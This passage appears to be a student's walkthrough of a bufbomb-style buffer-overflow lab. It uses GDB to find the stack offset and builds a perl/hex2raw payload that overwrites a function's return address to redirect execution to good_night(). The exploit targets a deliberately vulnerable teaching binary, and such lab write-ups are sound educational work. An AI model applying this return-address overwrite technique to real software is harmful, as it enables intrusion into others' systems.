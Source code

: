 We use command **x/20x $esp** to see the content of stack frame of the current function as much as 20 blocks with the address of register %esp is at the very bottom, in this case it's located at 0x55683638. Because the address of register %esp is the lowest and each block within the stack has an address with multiple of 4, we can calculate the address where our input **AAA** (**414141**) resides.
 
From above illustration we can see that the stack's block that has value 0x00414141 is located at the second row, and it is our input. To prove our calculation in the right track, let we calculate the address starting from 0x55683638 (the content of this address is 0x55683650). 

Still using GDB, type this command:  
 
> (gdb) p/x 0x55683638+24<br />
> $1 = 0x55683650<br />
> (gdb) x/ 0x55683650<br />

Address | Content
--- | ---
0x55683650 <_reserved+1037904>:  |  0x00414141<br />

We use **x/ 0x55683650** to see the content of address 0x55683650. Evidently, the content of that address is 0x00414141. So that's right if our input **AAA** starts from that address.

Now let's take a look at the content of the stack. From the previous explanation, we know that the return address of function **ah_choo()** is 0x08048d0c. This return address will make our program being redirect to procedure **test()**. Because we want to redirect it to procedure **good_night()**, we must change that return address with the return address of procedure **good_night()**.
   
We have to find the return address of function **ah_choo()**, namely 0x08048d0c on the stack frame with command **x/20x $esp**. We can find it in the last line. Because we had known that our input resides at address 0x55683650, we can calculate the number of characters needed to overwrite the return address 0x08048d0c. In this case, there are 52 characters represented in hexadecimal (2 digits) that should be included to corrupt all the stack's blocks below the block of return address. That 52 characters are free, it will only be a medium to accompany us to go to the block of function **ah_choo()** return address. After we input that 52 characters, we need 4 characters again to substitute the function **ah_choo()** return address. So, what are the 4 characters? Yes, they are the address of procedure **good_night()**, namely 08048b50.

Quit from GDB by typing **q**.

In your terminal, type this command:

> perl -e 'print "61 "x32, "62 "x20, "50 8b 04 08"' > hex0<br />
> ./hex2raw < hex0 > raw0

The first row is for writing character **61** as much as 32 times and character **62** as much as 20 times and 4 characters of return address into a text file named **hex0**. These characters are free and not neccessarily be 61 or 62. After those free 52 characters, we need to give the return address of procedure **good_night()**. Because my machine is Little Endian, I reverse the address from 08048b50 to **50 8b 04 08**. 

The second row is for converting the input string from text file **hex0** into hexadecimal representation and save it into a file named **raw0**.
 
Then we go back into GDB with these commands:

> gdb bufbomb<br />
> (gdb) run -u eksperimen < raw0<br />
> Userid: eksperimen<br />
> Cookie: 0x1d9ed824<br />
> Masukkan input:<br />
> OK: Instead of good bye, good_night()<br />
> VALID<br />
> Selamat!<br />
> [Inferior 1 (process 3943) exited normally]<br />

WOW! We did it!

Here I come, level 1!